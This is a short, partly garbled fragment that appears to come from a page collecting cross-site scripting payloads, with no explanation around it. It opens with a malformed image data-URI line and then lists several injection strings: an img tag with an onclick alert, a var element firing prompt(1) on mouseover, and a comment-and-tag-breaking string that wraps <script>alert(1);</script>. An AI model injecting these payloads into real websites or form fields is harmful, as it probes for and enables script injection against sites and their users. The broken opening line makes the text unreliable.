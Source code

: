 //<img type/onclick/alert() src="../../../../r89shi/r89shi.github.io/blob/master/140.gif?raw=true">


<var onmouseover="prompt(1)">On Mouse Over</var>

<%<!--'%><script>alert(1);</script -->
